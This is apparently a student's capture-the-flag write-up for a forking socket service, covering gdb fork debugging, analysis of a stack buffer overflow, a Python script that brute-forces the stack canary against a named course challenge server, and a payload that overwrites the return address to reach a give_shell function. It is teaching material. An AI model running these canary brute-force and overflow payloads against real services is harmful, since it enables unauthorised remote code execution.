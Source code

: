 # canary\_brute\_force

## Debug fork in gdb

Debugging in this program is a little tricky, because parent process will recv message, and fork new process to process the message

{% embed url="https://sourceware.org/gdb/onlinedocs/gdb/Inferiors-and-Programs.html\#Inferiors-and-Programs" %}

{% embed url="http://sourceware.org/gdb/onlinedocs/gdb/Forks.html" %}

Inferiors in gdb is kinda like session or tab in vim. 

`info inferior` to list inferiors

`inferior 1` to go to process 

* two mode related: `detach-on-fork` and `follow-fork-mode`

if detach-on-fork is on\(default\), gdb follow child or parent according to follow-fork-mode, and drop the control of the other process.

if detach-on-fork is off, gdb takes one process\(according to follow-fork-mode\) to front end, and **hangs** the other process in other inferior at the point of fork.

 

> If you ask to debug a child process and a `vfork` is followed by an `exec`, GDB executes the new target up to the first breakpoint in the new target. If you have a breakpoint set on `main` in your original program, the breakpoint will also be set on the child process’s `main`.



### brutus

this is a simple example: parent call child to handle message after accept a socket

![](../.gitbook/assets/image%20%286%29.png)

![](../.gitbook/assets/image%20%281%29.png)

the only param `handle` needs is the fd of socket

```c
send(socket_fd, str.Hello, 0x29, 0) //0x29 means how many bytes to send
send(socket_fd, str.how_long, 0x1f, 0) //0 is just a flag not mattering
recv(socket_fd, ebp-0x90, 127, 0) //recv 127 bytes, stores it to eip-0x90
how_long_int = atoi(ebp-0x90)
memset(ebp-0x90, 0, 0x80) //0 is a flag, 0x80 is 128 bytes, ebp-0x90 used again
dprintf(socket_fd, str.give_me, how_long_int)
recv(socket_fd, ebp-0x90, how_long_int, 0 //write to memory cleaned by memset
```

at first, I thought how\_long\_int will be used to set how many bytes room will be set by memset. But actually the bytes set by memset is fixed, 

canary is at rbp-0x8, memory to write is rbp-0x90, 0x90-0x8 = 0x88

should take notice that len\('B'.rjust\(89,'A'\)\) == 89

When the handle child process return normally, it will send back "and goodbye". But when stack smashed, it won't. 

![](../.gitbook/assets/image%20%283%29.png)



use script below to brute for the canary of remote process



```python
for test_byte in range(0xff+1):  #0xff will not be test if not +1

    if REMOTE:
        sh = remote('offsec-chalbroker.osiris.cyber.nyu.edu',1340)
        sh.recv(1024)
        sh.send('cx578\n')
    else:
        sh = remote('127.0.0.1',8000)
    sh.recv(1024)
    sh.send(str(0x90))
    sh.recv(1024)

    test_answer = answer + chr(test_byte)
    print(binascii.hexlify(test_answer))
    payload = test_answer.rjust(0x88 + len(test_answer), 'A')
    sh.send(payload)
    response = sh.recvall()
    print(response)

    if 'goodbye' in response:
        return test_answer

```

and there's a give\_shell function, by using 

`payload = binascii.unhexlify('001a46c8500c09cf').rjust(0x90, 'A') + 'A'*8 + p64(0x00400afd)`

and sent it, easily got a shell.

